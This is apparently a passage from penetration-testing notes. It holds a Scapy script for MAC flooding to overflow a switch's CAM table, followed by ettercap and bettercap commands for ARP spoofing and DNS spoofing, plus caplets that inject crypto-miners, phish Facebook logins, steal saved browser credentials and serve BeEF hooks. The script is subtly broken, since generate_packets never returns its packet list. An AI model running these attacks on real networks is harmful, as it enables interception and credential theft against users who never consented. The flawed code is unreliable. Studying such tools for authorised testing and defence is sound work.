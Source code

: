  ```python
     For that reason it's better to create a packet list before hand.
  '''
  def generate_packets():
      packet_list = []		#initializing packet_list to hold all the packets
      for i in xrange(1,10000):
          packet  = Ether(src = RandMAC(),dst= RandMAC())/IP(src=RandIP(),dst=RandIP())
          packet_list.append(packet)

  def cam_overflow(packet_list):
  # sendpfast(packet,iface='tap0', mbps)
      sendp(packet_list, iface='tap0')


  if __name__ == '__main__':
      packet_list = generate_packets()
      cam_overflow(packet_list)
  ```

## Ettercap and Bettercap

- `ettercap` (*multipurpose sniffer/content filter for man in the middle attacks*; **version>0.7.0**) **TODO: Test this more thoroughly and come up with more examples**
  - `ettercap -T`
  - `ettercap -T -M arp:local -P dns_spoof <targets-spec>` to start a TUI-based `ettercap` session (`-T`), activate an ARP-based MITM attack targeting localhost (`-M arp:local`), and run the `dns_spoof` plugin (`-P dns_spoof`), all against targets `<targets-spec>`.
    - `<targets-spec>`:
      - Takes the form of `MAC/IPs/ports`
      - `11:22:33:44:55:66/192.168.0-1.0-255,10.0.0.1/0-20` to specify a target of that MAC address, those IPs, and those ports
      - `//0-20` to specify target of any MAC address, any IP, and ports 0-20
  - `/etc/ettercap/etter.dns` (*host file for dns_spoof plugin*; specifies target host file modifications during DNS spoofing attack)
- `bettercap` is a newer version of `ettercap` which primarily operates interactively (a standard tool in MiTM)
  - <https://www.bettercap.org/>
  - Caplets (**NOTE**: Most of the vulnerabilities that these exploit are supposedly **older and ineffective**)
    - `bettercap -caplet /usr/local/share/bettercap/caplets/crypto-miner.cap -eval "set arp.spoof.targets 10.10.10.102"` to use a caplet
    - `crypto-miner.cap` - Deploy crypto-mining JavaScript in all HTTP requests
    - `local-sniffer.cap` - Use Bettercap as a local sniffer with protocol-filtering options
    - `login-man-abuse.cap` - Exploit browser built-in login managers to steal credentials
    - `fb-phish.cap` - Create a fake Facebook login page to collect credentials
    - `rogue-mysql-server.cap` - Impersonate and intercept MySQL server connections
    - `simple-passwords-sniffer.cap` - Capture any network activity with password= in the payload
    - `stsoy.cap` - Spoof all DNS responses for Microsoft and Google, serving up BeEF hooks
    - `web-override.cap` - Replace every unencrypted web page with a static page of the adversary's choosing
  - `bettercap -iface eth0` to start an interactive session (**you should specify an interace so it doesn't choose loopback**)
  - `help` to show help
    - `help <module>` to show status of module and available commands
  - `net.show` to show list of cached hosts
  - `net.recon` module (*read periodically the ARP cache in order to monitor for new hosts on the network*; passive monitoring of ARP cache to determine hosts on network)
    - `help net.recon` to show help for the `net.recon` module
    - `net.recon on` to start host discovery (on by default)
    - `net.recon off` to stop host discovery
  - `net.probe` module (*keep probing for new hosts on the network by sending dummy UDP packets to every possible IP on the subnet*; active probing to determine hosts on network)
    - `net.probe on`
    - `net.probe off`